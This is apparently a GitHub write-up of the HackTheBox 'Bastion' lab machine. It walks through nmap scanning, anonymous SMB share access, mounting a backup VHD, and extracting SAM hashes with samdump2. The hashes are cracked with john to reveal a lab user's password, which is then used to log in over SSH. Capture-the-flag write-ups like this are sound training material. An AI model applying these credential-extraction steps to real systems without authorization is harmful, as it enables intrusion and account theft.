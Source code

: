 # bastion.htb
### Write-up for the bastion machine from hackthebox

Bastion was an awesome box. Mounting an SMB share and enumerating its contents reveals a virtual hard disk, that you need to either figure out how to mount in kali or open in a VM. I chose to mount via kali. Once mounted, you can get user creds using samdump2, and ssh into the box and begin enumerating for privesc. You'll find a application that stores passwords in an insecure manner. If you didn't spin up a VM earlier, you'll have to do it now in order to get admin creds and root the box.

### Scan and Basic Recon

I began with a safe script and version scan with nmap

```
nmap -sV -sC -oN tcp.nmap 10.10.10.134

Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-03 15:21 CDT
Nmap scan report for 10.10.10.134
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-03T22:22:17+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-05-03 15:22:16
|_  start_date: 2019-05-03 14:40:05

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

Neat! No web servers so far, and anonymous access to SMB enabled. I ran `smbmap -u anonymous -H 10.10.10.134` and got the following output.

```
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445	Name: 10.10.10.134                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	Backups                                           	READ, WRITE
	[!] Unable to remove test directory at \\10.10.10.134\Backups\CMmGdHrWob, plreae remove manually
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```

Taking a peek into the `Backups` share with `smbclient` shows many things to investigate. I could file transfer to my local machine, but that seems a bit excessive, especially with some files in the share that are larger than 5GB. Let's try mounting the share. I first made a mount point in `/mnt`.

`mkdir /mnt/smb`

and then ran

`mount.cifs //10.10.10.134/Backups /mnt/smb`

Success! Let's rummage through here and see what we can find. That 5GB file I mentioned earlier is a virtual hard drive. I'd like to see what's on it. I could open this in a VM, but hey we've been mounting successfully so far and ~my computer is crap and likely wont't be able to handle the load of a VM~ I'm feeling lucky.

After much research, I saw that I could use `guestmount` from [http://libguestfs.org/guestmount.1.html](libguestfs-tools). After installing `libguestfs-tools` I ran

`guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/vhd/`

The drive name following the `-a` is what will be mounted. `-i` inspects the disk looking for an operating system and mounts the filesystem as it would be mounted on the real virtual machine. `--ro` mounts the drive in read only mode. It gave me the below output.

![Screenshot from 2019-07-25 22-23-45](https://user-images.githubusercontent.com/46615118/61970965-780a9400-afa3-11e9-825d-fa6189a01135.jpg)

### Gaining Access

On Windows, the Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. SAM passwords are stored as a LM hash or as a NTLM hash. This file can be found in `%SystemRoot%/system32/config/SAM`.

I used `samdump2` to extract the hashes from the SAM db.

![Screenshot from 2019-07-25 22-37-43](https://user-images.githubusercontent.com/46615118/61974849-2d8e1500-afad-11e9-908f-daf4ea2f346b.jpg)

I then ran john against the hashes, using rockyou.txt as the wordlist

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

and this gave me creds for L4mpje:

```
john --show --format=NT ~/Desktop/hashes.txt 
*disabled* Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Looking back at our nmap output we see that ssh is available. I try `ssh L4mpje@10.10.10.134` and enter the password, and we're in and can get `user.txt`!

![Screenshot from 2019-07-25 22-46-24 (1)](https://user-images.githubusercontent.com/46615118/61975322-6e3a5e00-afae-11e9-9e77-e4cff510e912.jpg)

### Privesc and Pwn

![Screenshot from 2019-05-23 15-45-18](https://user-images.githubusercontent.com/46615118/61974304-d5a2de80-afab-11e9-81f8-54f9a3bc92e4.jpg)
